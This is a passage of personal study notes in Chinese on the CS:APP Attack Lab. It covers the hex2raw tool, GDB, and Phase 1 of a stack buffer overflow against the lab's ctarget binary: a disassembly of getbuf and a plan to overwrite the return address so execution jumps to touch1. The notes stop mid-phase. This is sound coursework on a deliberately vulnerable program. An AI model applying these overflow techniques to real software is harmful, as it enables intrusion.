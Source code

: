 ## hex2raw
将十六进制数转换成字符串,例如
```
/* exploit.txt */
48 c7 c1 f0 11 40 00       /* mov $0x40011f0,%rcx */
68 ef cd ab 00             /* pushq $0xabcdef */ 
48 83 c0 11                /* add $0x11,%rax */ 
89 c2                      /* mov %eax,%edx */
```
可以用I/O重定向存储转换后的文件
```shell
./hex2raw < explot.txt > exploit-raw.txt
./ctarget < exploit-raw.txt
gdb ctarget
(gdb) r < exploit-raw.txt
```

## GDB
```shell
gcc -c example.s
```
产生汇编文件对应的目标文件.
当然,使用GDB的调试功能监视内存地址和寄存器也是必不可少的.我已经在Bomblab中掌握了.


# ctarget:Code Injection Attacks
`getbuf()`函数被 `test()`函数调用:
```c
void test(){
	int val;
	val = getbuf();
	printf("No exploit.  Getbuf return 0x%x\n", val);
}
```

## Phase 1
这个问题中,需要我修改返回地址,重定向到`touch1()`函数:
```c
void touch1(){
	vlevel = 1;
	printf("Touch1!: You called touch1()\n");
	validate(1);
	exit(0);	
}
```
首先,我反汇编 `getbuf()`函数:
```
(gdb) disass getbuf
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    $0x28,%rsp
   0x00000000004017ac <+4>:     mov    %rsp,%rdi
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    $0x1,%eax
   0x00000000004017b9 <+17>:    add    $0x28,%rsp
   0x00000000004017bd <+21>:    ret
End of assembler dump.
```
非常简单,首先%rsp减去40字节,此时的%rsp作为buf指针传给 `Gets()`函数,调用 `Gets()`函数前返回地址设置为0x4017b4.
回顾[[机器级编程III(过程Procedure)#栈帧|栈帧]]的知识,如果我把返回地址覆写为`touch1()`函数的地址,就能跳转到`touch1()`函数.
寻找`touch1()`函数:
```shell
(gdb) disass touch1
Dump of assembler code for function touch1:
```